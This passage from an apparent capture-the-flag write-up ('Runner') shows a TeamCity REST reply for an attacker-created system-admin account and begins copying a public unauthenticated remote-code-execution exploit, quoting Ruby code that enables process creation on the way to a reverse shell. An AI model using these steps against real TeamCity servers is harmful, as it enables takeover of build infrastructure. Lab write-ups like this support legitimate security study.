 ```bash
<?xml version="1.0" encoding="UTF-8" standalone="yes"?><user username="test" id="13" email="gabri@runner.htb" href="/app/rest/users/id:13"><properties count="3" href="/app/rest/users/id:13/properties"><property name="addTriggeredBuildToFavorites" value="true"/><property name="plugin:vcs:anyVcs:anyVcsRoot" value="test"/><property name="teamcity.server.buildNumber" value="129390"/></properties><roles><role roleId="SYSTEM_ADMIN" scope="g" href="/app/rest/users/id:13/roles/SYSTEM_ADMIN/g"/></roles><groups count="1"><group key="ALL_USERS_GROUP" name="All Users" href="/app/rest/userGroups/key:ALL_USERS_GROUP" description="Contains all TeamCity users"/></groups></user>
```

After logging in I have access to the teamcity panel:

![access teamcity panel](/assets/images/Runner/access-teamcity-panel.png)

Looking in Administration > Users, I can see the users john and matthew (appart from me):

![teamcity users](/assets/images/Runner/teamcity-users.png)

I will have them noted.

# Access as tcuser on 172.17.0.2

I will copy the things that [this exploit](https://packetstormsecurity.com/files/174860/JetBrains-TeamCity-Unauthenticated-Remote-Code-Execution.html) does to gain a reverse shell. Before retrieving the token, it modifies an internal.properties file to enable process creation by calling `modify_internal_properties(token, 'rest.debug.processes.enable', 'true')`:

```ruby
print_status('Modifying internal.properties to allow process creation...')

unless modify_internal_properties(token, 'rest.debug.processes.enable', 'true')
fail_with(Failure::UnexpectedReply, 'Failed to modify the internal.properties config file.')
end
```

